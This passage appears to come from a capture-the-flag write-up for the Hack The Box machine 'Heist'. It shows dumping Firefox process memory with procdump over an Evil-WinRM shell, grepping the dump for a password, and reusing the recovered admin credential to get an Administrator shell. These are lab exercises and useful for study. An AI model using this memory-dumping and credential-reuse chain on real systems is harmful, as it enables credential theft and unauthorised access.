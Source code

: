 
The `-ma` flag is important, otherwise it will not dump private memory. Trust me, learn from my mistakes :)
```ps1
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -ma 6488

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[19:28:36] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210111_192836.dmp
[19:28:36] Dump 1 writing: Estimated dump file size is 455 MB.
[19:28:41] Dump 1 complete: 455 MB written in 5.3 seconds
[19:28:42] Dump count reached.
```
After transferring it to our box via SMB, we'll run our friend `strings` on it:
```
strings firefox.exe_210111_192836.dmp | grep -i password > passwds-dump
```
After some digging, we'll find this line:
> http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

admin@support.htb
4dD!5}x/re8]FBuZ

Which is the admins password

We can put it into our passwords file and run it:
![](2021-01-11-15-03-55.png)

Pwn3d!

Let's log in with evil-winrm:
```ps1
kali@kali:~/htb/boxes/heist/10.10.10.149$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:05 AM             32 root.txt
```

